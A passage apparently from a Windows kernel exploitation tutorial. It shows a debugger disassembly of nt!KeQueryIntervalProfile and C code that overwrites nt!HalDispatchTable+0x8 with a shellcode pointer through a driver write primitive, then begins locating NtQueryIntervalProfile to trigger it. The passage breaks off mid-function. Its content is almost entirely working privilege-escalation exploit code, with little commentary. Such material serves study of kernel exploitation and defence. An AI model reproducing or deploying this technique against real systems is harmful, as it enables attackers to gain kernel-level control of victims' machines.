 ```asm
fffff800`96584e7a 7411            je      nt!KeQueryIntervalProfile+0x41 (fffff800`96584e8d) Branch nt!KeQueryIntervalProfile+0x30:
fffff800`96584e7c 8b442428        mov     eax,dword ptr [rsp+28h]

nt!KeQueryIntervalProfile+0x34:
fffff800`96584e80 4883c448        add     rsp,48h
fffff800`96584e84 c3              ret

nt!KeQueryIntervalProfile+0x39:
fffff800`96584e85 8b0595c2dfff    mov     eax,dword ptr [nt!KiProfileAlignmentFixupInterval (fffff800`96381120)]
fffff800`96584e8b ebf3            jmp     nt!KeQueryIntervalProfile+0x34 (fffff800`96584e80) Branch nt!KeQueryIntervalProfile+0x41:
fffff800`96584e8d 33c0            xor     eax,eax
fffff800`96584e8f ebef            jmp     nt!KeQueryIntervalProfile+0x34 (fffff800`96584e80) Branch
```

Here, we can see a call to `HalDispatchTable+0x8`. There we will put our pointer.

It's time to write the final part of the exploit - 

```c
void modifyHalDispatchTable(unsigned long long kernelBaseAddress, HANDLE hDriver, void* shellcode) {

	unsigned long long halDispatchTable = kernelBaseAddress + HAL_DISPATCH_TABLE_OFFSET;

	// Defining buffer to send to driver.
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset.
	memset(buffer, 0x41, 0x10);

	// Actual buffer for overwriting [nt!HalDispatchTable+0x8] with shellcode address.
	memcpy(buffer, &shellcode, oneQword);
	memcpy(&buffer[0x8], &halDispatchTable, oneQword);

	sendBufferToDriver(hDriver, buffer);

	printf("[+] Overwrote [nt!HalDispatchTable+0x8] with shellcode address...\n");
}
```

In the above, we are modifying the `HalDispatchTable` with a pointer to our shellcode.

```c
void triggerExploit() {

	// Locating nt!NtQueryIntervalProfile.
	NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(
		GetModuleHandle(
			TEXT("ntdll.dll")),
		"NtQueryIntervalProfile"
	);

	// Error handling.
	if (!NtQueryIntervalProfile)
	{
		printf("[-] Error! Unable to find ntdll!NtQueryIntervalProfile! Error: %d\n", GetLastError());
		exit(1);
	}

	// Print update for found ntdll!NtQueryIntervalProfile.
	printf("[+] Located ntdll!NtQueryIntervalProfile at: 0x%llx\n", NtQueryIntervalProfile);
```